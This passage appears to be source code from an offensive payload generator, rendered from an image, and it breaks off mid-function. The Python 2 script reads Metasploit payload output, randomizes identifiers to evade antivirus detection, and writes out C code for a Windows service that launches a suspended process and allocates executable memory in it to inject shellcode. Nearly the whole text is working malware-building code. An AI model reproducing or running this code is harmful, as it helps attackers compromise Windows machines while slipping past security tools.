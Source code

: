 ```python
msf = str(msf)
if 'Payload size' in msf:
	bytes = re.findall(r'Payload size: (.*?) bytes', msf)
	bytes = int(bytes[0]) + 2
print "█ "+G+"Payload Size: "+W+""+str(bytes)+W

payload = commands.getstatusoutput('cat payload.c | grep x')

rand = "".join( [random.choice(string.letters[:26]) for i in xrange(5)] )
randservicename = "".join( [random.choice(string.letters[:26]) for i in xrange(8)] )
randbuff = "".join( [random.choice(string.letters[:26]) for i in xrange(4)] )
randlpPayload = "".join( [random.choice(string.letters[:26]) for i in xrange(9)] )
randdate = "b"+"".join( [random.choice(string.letters[:26]) for i in xrange(4)] )

print "█ "+G+"Injecting Payload"+W+"..."+W
s = """#define WIN32_LEAN_AND_MEAN
#include <windows.h>

#define """+randbuff+"""	"""+str(bytes)+"""
char cServiceName[32] = """+"\""+randservicename+"\""+""";
char """+randdate+"""["""+randbuff+"""] = """+payload[1]+"""

SERVICE_STATUS """+rand+""";
SERVICE_STATUS_HANDLE hStatus = NULL;

BOOL ServiceHandler( DWORD dwControl )
{
	if( dwControl == SERVICE_CONTROL_STOP || dwControl == SERVICE_CONTROL_SHUTDOWN )
	{
		"""+rand+""".dwWin32ExitCode = 0;
		"""+rand+""".dwCurrentState  = SERVICE_STOPPED;
	}
	return SetServiceStatus( hStatus, &"""+rand+""" );
}
VOID ServiceMain( DWORD dwNumServicesArgs, LPSTR * lpServiceArgVectors )
{
	CONTEXT Context;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	LPVOID """+randlpPayload+""" = NULL;
	ZeroMemory( &"""+rand+""", sizeof(SERVICE_STATUS) );
	ZeroMemory( &si, sizeof(STARTUPINFO) );
	ZeroMemory( &pi, sizeof(PROCESS_INFORMATION) );
	si.cb = sizeof(STARTUPINFO);
	"""+rand+""".dwServiceType = SERVICE_WIN32_SHARE_PROCESS;
	"""+rand+""".dwCurrentState = SERVICE_START_PENDING;
	"""+rand+""".dwControlsAccepted = SERVICE_ACCEPT_STOP|SERVICE_ACCEPT_SHUTDOWN;
	hStatus = RegisterServiceCtrlHandler( (LPCSTR)&cServiceName, (LPHANDLER_FUNCTION)ServiceHandler );
	if ( hStatus )
	{
		"""+rand+""".dwCurrentState = SERVICE_RUNNING;
		SetServiceStatus( hStatus, &"""+rand+""" );
		if( CreateProcess( NULL, """+"\""+ExecutableName+"\""+""", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi ) )
		{
			Context.ContextFlags = CONTEXT_FULL;
			GetThreadContext( pi.hThread, &Context );
			"""+randlpPayload+""" = VirtualAllocEx( pi.hProcess, NULL, """+randbuff+""", MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE );
			if( """+randlpPayload+""" )
			{
```